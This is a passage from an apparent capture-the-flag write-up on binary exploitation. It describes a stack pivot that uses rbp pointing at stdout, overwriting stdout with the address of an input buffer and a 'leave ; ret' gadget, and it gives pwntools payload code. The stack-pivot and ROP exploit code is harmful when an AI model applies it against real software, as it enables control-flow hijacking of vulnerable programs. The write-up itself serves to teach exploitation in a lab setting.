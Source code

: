 And we can input now! Let's move on

### Stage 2: Stack pivot & ROPchain

Now we need to do a stack pivot so let's analyze rbp when program jump to main the second time:

![check-registers.png](images/check-registers.png)

And you know, that's the address of stdout:

![stdout-address.png](images/stdout-address.png)

So rbp now pointing to stdout and will not be changed when we jump back to main because we jump to `main+54`, not from the begining. The idea is to overwrite `[stdout+0]` with address of `inp` and `[stdout+8]` with instruction `leave ; ret` so that when we change payload above from `p64(exe.sym['main'] + 54)` to `p64(leave_ret)`, we can land on `inp`.

So let's overwrite `[stdout+0]` first with address of `inp`:

```python
payload = p64(exe.sym['main'] + 54)
p.sendline(payload)
p.sendline(f'{stdout}'.encode())
p.sendline(f'{exe.sym["inp"]}'.encode())
```

Now with the third jump to main, we will overwrite `[stdout+8]` with instruction `leave ; ret`:

```python
leave_ret = 0x00000000004013bc
payload = p64(leave_ret)
p.sendline(payload)
p.sendline(f'{stdout + 0x8}'.encode())
p.sendline(f'{leave_ret}'.encode())
```

Execute script and attach with gdb, we can see it `ret` to our `inp`:

![check-rip.png](images/check-rip.png)
